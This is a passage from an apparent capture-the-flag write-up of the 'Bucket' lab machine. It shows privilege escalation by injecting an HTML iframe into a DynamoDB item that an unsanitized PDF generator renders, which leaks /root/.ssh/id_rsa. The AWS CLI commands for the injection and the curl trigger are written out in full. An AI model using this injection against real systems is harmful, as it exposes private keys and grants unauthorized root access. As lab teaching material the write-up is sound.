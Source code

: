 We have seen the users table on `dynamodb` and but no `alerts` table. We can see in th script above that that script produces a PDF file and does not sanitize any input. 

So let's create the `alerts` table on s3:

```
aws dynamodb create-table --table-name alerts --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S --key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5 --endpoint-url http://s3.bucket.htb
```

Table was created. this is the output

![picture 46](/assets/images/8e142ef806ca7c849f41f0c341a00aad41fa88d0908debee2b02a7dbef2ea293.png)  

## HTML/iframe injection
Now its time to put a row/item to the table, which is going to be read when running the script.

```
aws dynamodb put-item --table-name alerts --item '{"title": {"S": "Ransomware"},"data": {"S": "<html><head></head><body><iframe src='/root/.ssh/id_rsa'></iframe></body></html>"}}' --return-consumed-capacity TOTAL --endpoint-url http://s3.bucket.htb
```
## Getting privileged shell
Now just call `curl --data "action=get_alerts" http://localhost:8000/` and grab the results.pdf. 
